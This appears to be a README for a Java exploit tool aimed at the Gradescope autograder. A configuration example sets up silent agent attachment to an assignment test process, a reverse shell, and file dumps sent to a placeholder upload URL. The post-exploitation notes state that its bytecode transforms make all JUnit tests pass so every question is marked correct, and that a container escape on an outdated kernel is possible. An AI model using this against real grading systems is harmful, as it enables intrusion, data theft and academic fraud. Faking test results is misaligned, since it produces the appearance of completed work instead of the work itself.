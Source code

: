 # GradeScopeInspector Documentation

## Overview

The `GradescopeInspector` is a Java utility designed to facilitate the configuration and deployment of a proof-of-concept exploit framework. This framework demonstrates remote code execution and privilege escalation vulnerabilities, leveraging techniques such as reflection, Java agents, bytecode transformation, and deserialization vulnerabilities. Among its features is the capability to establish a reverse shell, providing a powerful tool for security research and development.

**Important:** This tool is intended solely for educational and research purposes to understand the nature of these vulnerabilities. It has been responsibly disclosed to the vendor.

## Features

- **Dumping**: Enables memory and data dumping.
- **Assert Transformation**: Alters assert operations in the bytecode.
- **Test Transformation**: Modifies test-related bytecode for analysis.
- **Silent Mode**: Operates without verbose output.
- **Reverse Shell**: Establishes a reverse shell connection.
- **Customizable URLs**: Allows setting URLs for downloading agents and dumping data.
- **Target Process Matching**: Specifies the process to attach for testing or exploitation.
- Note that wil escaping the sandbox is possible, for obvious reasons this functionality has not been included.
## Usage

### Building an Agent

To create an instance of `AgentManager` using `AgentBuilder`, you can configure various aspects of the agent. Here is an example demonstrating how to customize the builder:

```java
import gradeskope.shell.RSHellTargetType;

public class Main {

  // Testing Entrypoint
  public static void main(String[] args) {
    System.out.println("Testing Entrypoint");

    AgentManager agentManager = new AgentBuilder()
        .enableSilentMode(true)                                       // Enable silent mode, will not print debug messages
        .enableTestTransform(true)                                    // Enable transoming test bytecode 
        .setTargetProcessMatchString("comp533.RunSemester24Assignment6Tests") // Set target process matching string
        .enableReverseShell(true)                                     // Enable reverse shell
        .reverseShellTarget(RSHellTargetType.AGENT_ATTACHED_PROCESS)  // Set reverse shell target type, this will bind to another process instead of self
        .setDumpDestinationURL("https://your-custom-upload-url.com/upload") // Set custom dump URL for extracted files
        .setReverseShellURL("tcp://your-custom-reverse-shell-url:port")     // Set custom reverse shell URL
        .buildAgent();

    agentManager.run();
  }
}
```
### Post Exploitation Notes 
- For the reverse shell to work you need to have a service ready to interpret netcat easily on hand. You can of course, also use a reverse proxy for flexibility.
- You will find yourself in a docker container environment with an outdated (vulnerable!) kernel. Escape is possible.
- Since you can modify bytecode, you can use the test and assert transforms to make all JUnit tests never through an error, thus marking all questions as correct for Java assignments on GradeScope.